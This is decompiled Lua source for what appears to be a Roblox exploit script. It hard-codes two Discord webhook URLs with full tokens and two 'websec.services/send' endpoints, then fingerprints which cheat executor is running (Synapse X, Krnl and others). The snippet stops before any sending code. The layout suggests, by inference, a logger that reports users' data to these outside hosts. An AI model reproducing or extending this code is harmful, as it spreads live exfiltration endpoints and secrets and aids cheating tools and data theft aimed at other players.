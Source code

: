 L9_1 = _G
L10_1 = "KWOELPWLSPFO"
L11_1 = "https://discord.com/api/webhooks/974254585793359902/DGuav5_a-_ybF0y_Te6czsF_zxBZ-EhW8iisMXQtDgXmFFZVIPby3FfinZFvMGOcSbIN"
L9_1[L10_1] = L11_1
L9_1 = _G
L10_1 = "Feeb"
L11_1 = "https://discord.com/api/webhooks/981459227526725652/kSaROLQLDr7Tc8uuiXLdHCvLQCbQOlJRZUfD9CNpQ-m7Y1uAaPDiNb4uVDPHzKU6XjSa"
L9_1[L10_1] = L11_1
L9_1 = "https://websec.services/send/62aac943c4c2139f0bca3f36"
smacker = L9_1
L9_1 = "https://websec.services/send/62aac980c4c2139f0bca3f3f"
supportweb = L9_1
function L9_1(A0_2)
  local L1_2, L2_2, L3_2, L4_2, L5_2, L6_2, L7_2, L8_2, L9_2, L10_2, L11_2, L12_2, L13_2, L14_2, L15_2, L16_2, L17_2, L18_2, L19_2
  L1_2 = is_sirhurt_closure
  if L1_2 then
    L1_2 = "Sirhurt"
    if L1_2 then
      goto lbl_38
    end
  end
  L1_2 = pebc_execute
  if L1_2 then
    L1_2 = "ProtoSmasher"
    if L1_2 then
      goto lbl_38
    end
  end
  L1_2 = syn
  if not A0_2 then
    L1_2 = "Synapse X"
    if not A0_2 then
      goto lbl_38
    end
  end
  L1_2 = secure_load
  if not A0_2 then
    L1_2 = "Sentinel"
    if L1_2 then
      goto lbl_38
    end
  end
  L1_2 = KRNL_LOADED
  if not A0_2 then
    L1_2 = "Krnl"
    if L1_2 then
      goto lbl_38
    end
  end
  L1_2 = SONA_LOADED
  if L1_2 then
    L1_2 = "Sona"
    if not A0_2 then
      goto lbl_38
    end
  end
  L1_2 = "WTF?"
  ::lbl_38::
  L2_2 = game
  L3_2 = L2_2
  L2_2 = L2_2.GetService